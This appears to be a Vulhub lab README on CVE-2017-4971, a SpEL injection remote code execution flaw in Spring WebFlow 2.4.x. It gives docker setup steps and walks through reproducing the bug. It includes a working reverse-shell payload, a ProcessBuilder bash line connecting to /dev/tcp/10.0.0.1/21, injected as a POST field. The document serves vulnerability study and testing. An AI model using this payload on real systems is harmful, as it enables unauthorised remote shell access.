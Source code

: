 # Spring WebFlow Remote Code Execution Vulnerability (CVE-2017-4971)

[中文版本(Chinese version)](README.zh-cn.md)

Spring WebFlow is a framework suitable for developing flow-based applications (such as shopping logic), which can separate the flow definition from the classes and views that implement the flow behavior. In its 2.4.x versions, if we can control the field during data binding, it will lead to a SpEL expression injection vulnerability, ultimately resulting in arbitrary command execution.

Reference links:

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## Environment Setup

Execute the following command to start the a web application based on Spring WebFlow 2.4.4:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` to see a hotel booking page, which is a simple example provided by Spring WebFlow.

## Vulnerability Reproduce

First, visit `http://your-ip:8080/login` and log in to the system using any of the accounts/passwords given on the left side of the page:

![](1.png)

Then visit the hotel with id 1 at `http://your-ip:8080/hotels/1`, click the "Book Hotel" button, fill in the relevant information, and click "Process" (from this step, WebFlow officially begins):

![](2.png)

Then click "Confirm":

![](3.png)

At this point, intercept the request and capture a POST data packet. We add a field to it (which is the reverse shell POC):

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

![](4.png)

(Note: Don't forget to URL encode)

Successfully executed, gaining shell access:

![](5.png)
